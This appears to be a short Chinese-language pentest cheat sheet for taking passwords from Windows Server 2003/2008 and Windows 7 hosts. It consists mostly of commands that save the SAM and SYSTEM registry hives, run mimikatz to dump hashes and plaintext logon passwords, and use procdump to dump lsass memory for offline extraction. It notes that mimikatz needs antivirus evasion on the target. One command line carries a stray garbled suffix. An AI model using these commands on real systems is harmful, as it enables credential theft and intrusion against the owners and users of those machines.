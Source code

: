 

## Windows Server 2003、Windows Server 2008、Windows 7 获取到明文密码

首先我们需要把当前系统注册表 SAM、SYSTEM 获取到
reg save HKLM\SYSTEM Sys.hiv

reg save HKLM\SAM Sam.hiv

mimikatz "lsadump::sam /sam:Sam.hiv /system:Sys.hiv" exitsaulGoodman


然后把这两个文件拖回本地然后用 mimikatz 抓取密码hash


mimikatz "lsadump::sam /sam:Sam.hiv /system:Sys.hiv" exit

把mimikatz拖到目标主机获取密码（根据实际需要，mimikatz需要免杀）

mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" "exit"

通过 Procdump 获取 lsass 抓内存中的明文密码

通过procdump下载lsass信息

procdump.exe -accepteula -ma lsass.exe lsass.dmp

回传本地获取密码
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit

## 解密码项目

  https://github.com/seventeenman/CallBackDump
